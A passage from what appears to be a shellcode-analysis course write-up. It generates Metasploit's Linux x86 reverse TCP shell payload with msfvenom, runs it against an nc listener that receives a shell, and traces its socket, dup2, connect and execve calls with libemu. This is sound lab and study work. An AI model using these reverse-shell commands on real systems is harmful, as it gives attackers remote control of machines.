 Compiling and verifying that the shellcode works:

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ gcc -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ ./shellcode
Size: 69 bytes.
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [172.23.10.37] port 4444 [tcp/*] accepted (family 2, sport 53684)
id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

With libemu's `sctest` utility, we can see that the shellcode executes the following functions:
- socket
- dup2 (duplicate stdin, stdout and stderr descriptors)
- connect
- execve

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.23.10.37 LPORT=4444 | sctest -v -Ss 100000   
verbose = 1
[...]
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 621418412 (host=172.23.10.37);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
```